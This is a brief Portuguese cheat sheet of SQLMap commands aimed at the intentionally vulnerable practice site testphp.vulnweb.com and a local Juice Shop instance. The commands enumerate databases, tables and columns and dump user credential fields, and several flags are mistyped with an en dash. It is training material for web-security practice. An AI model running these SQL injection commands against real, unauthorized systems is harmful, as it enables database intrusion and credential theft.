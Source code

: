 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs
```
```
sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump
``` 
Database Schema Juice-Shop
``` 
$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
``` 
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
